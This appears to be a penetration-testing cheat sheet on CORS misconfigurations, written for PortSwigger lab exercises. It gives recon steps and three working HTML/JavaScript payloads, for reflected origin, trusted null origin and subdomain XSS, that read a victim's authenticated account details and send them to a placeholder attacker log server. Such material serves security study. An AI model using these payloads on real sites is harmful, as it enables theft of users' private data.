 # Cross-origin Resource Sharing (CORS)

## Summary

* [General Recon For CORS Vulnerabilities](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

<br>

## Resources

* https://portswigger.net/web-security/cors
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing

<br>

## Recon

### Identify CORS Misconfigurations

* Analyze all the application’s responses to see if any explicitly support CORS
   * Access-Control-Allow-Origin: https://malicious-website.com 

* Identify what Origins are allowed to submit CORS requests to the application, submit the following header in the requests:
    * Origin: *some-value*
    
* Identify if any of those requests can be used to send CORS request with credentials:
    * Access-Control-Allow-Credentials: true

* The examples from the labs can help create exploits to take advantage of these misconfigurations

<br>

---
---

<br>

## Cheat Sheet

### Basic Origin Reflection

* The application is allowing any Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: attacker.com
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  Now the attacker needs to trick the victim user into visiting their website, while they’re authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
    };
</script>
</html>
```

<br><br>

### Trusted Null Origin

* The application is only allowing the “null” Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  
* The malicious code will be within an \<iframe\> that will cause the browser to set the Origin header to “null”.  The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

<br><br>

### Subdomain Origin Allowed

* The application is only allowing subdomains to send cross-origin requests and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: subdomain.vulnerable-app.com
```

* If the subdomain contains a XSS vulnerability, we can inject a script that will submit a request to the main application and send the response to the attacker’s server.  This will work since the subdomain is allowed to view the authenticated responses from the main application.  
* When the XSS script executes, the Origin header's value will be **subdomain.vulnerable-app.com**  (reason why is because the xss script is essentially a part of the application now).  This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

    * Make sure to encode the angle brackets <> in the payload within the *document.location* to prevent breaking the payload.  This payload is the exact same as the [Basic Origin Reflection](#basic-origin-reflection), except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

* Decoded Version:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```

<br><br>

### Pending to complete labs that are missing from cheat sheet:

* LAB EXPERT CORS vulnerability with internal network pivot attack
